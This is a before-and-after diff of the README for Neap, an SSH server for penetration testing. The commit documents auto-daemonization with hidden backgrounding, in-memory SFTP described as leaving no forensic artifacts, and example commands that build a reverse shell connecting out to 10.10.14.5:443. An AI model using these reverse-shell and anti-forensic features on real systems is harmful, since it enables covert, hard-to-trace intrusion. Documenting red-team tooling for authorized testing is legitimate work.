

Before and after one commit to Real-Fruit-Snacks/Neap, a Markdown page: README.md, 3 parts joined by grey strips. GitHub-like rendering; badges without logos; blank space fills up the shorter version; grey boxes are pictures that could not be loaded.

Commit message:
docs: add daemonization and in-memory SFTP to README

````diff
--- a/README.md
+++ b/README.md
@@ -12,7 +12,7 @@
 
 **Statically-linked SSH server for penetration testing.**
 
-Reverse shells, bind shells, SFTP file transfer, and full SSH port forwarding in a single static binary. Rust rewrite of [Undertow](https://github.com/Real-Fruit-Snacks/Undertow) with TLS wrapping, SNI spoofing, and build-time configuration.
+Reverse shells, bind shells, SFTP file transfer, and full SSH port forwarding in a single static binary. Rust rewrite of [Undertow](https://github.com/Real-Fruit-Snacks/Undertow) with TLS wrapping, SNI spoofing, build-time configuration, auto-daemonization, and in-memory SFTP.
 
 > **Authorization Required**: Designed exclusively for authorized security testing with explicit written permission.
 
@@ -103,6 +103,19 @@ All connection parameters baked at compile time. No runtime arguments needed on
 # Produces a binary that auto-connects with no flags needed
 ```
 
+### Auto-Daemonize
+
+Neap automatically backgrounds itself on launch. Unix double-fork with full terminal detach. Windows detached process respawn. No visible window, no terminal output.
+
+### In-Memory SFTP
+
+RAM-only file storage with `--memfs`. Files never touch disk — zero forensic artifacts. All data lost on exit, by design.
+
+```bash
+neap --memfs -l -p 4444
+./build.sh reverse 10.10.14.5:443 --memfs
+```
+
 ---
 
 ## Architecture
@@ -132,6 +145,8 @@ Two-mode architecture: bind (server listens) or reverse (client dials home). Bot
 | SFTP | Full | Full |
 | Port Forwarding | Full | Full |
 | TLS Wrapping | Full | Full |
+| Auto-Daemonize | Full (double-fork) | Full (detached) |
+| In-Memory SFTP | Full | Full |
 | Static Binary | musl | MSVC |
 
 ---
````
